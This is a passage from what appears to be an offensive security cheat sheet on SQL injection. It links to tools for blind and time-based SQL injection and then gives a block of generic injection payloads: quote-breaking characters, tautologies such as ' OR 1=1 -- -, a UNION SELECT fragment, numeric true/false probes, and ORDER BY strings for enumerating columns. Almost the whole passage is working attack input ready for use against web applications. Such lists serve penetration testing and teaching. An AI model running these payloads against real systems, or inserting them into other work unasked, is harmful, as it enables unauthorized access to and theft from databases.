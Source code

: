 * [Blind-Sql-Bitshifting](https://github.com/awnumar/blind-sql-bitshifting) – Blind SQL-Injection via Bitshifting

* [Leviathan](https://github.com/leviathan-framework/leviathan) – Wide Range Mass Audit Toolkit

* [Blisqy](https://github.com/JohnTroony/Blisqy) – Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)

#### Generic SQL Injection Payloads

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

```